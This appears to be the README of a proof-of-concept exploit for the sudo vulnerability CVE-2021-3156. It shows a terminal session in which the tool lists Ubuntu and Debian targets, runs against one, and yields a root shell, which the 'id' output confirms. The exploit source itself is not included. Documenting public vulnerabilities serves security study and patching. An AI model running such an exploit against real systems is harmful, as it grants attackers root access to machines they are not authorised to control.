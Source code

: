# CVE-2021-3156

xchg@ubuntu:~/Desktop/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    1) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

xchg@ubuntu:~/Desktop/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 0

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: 'Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31'
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),1000(xchg)
# 
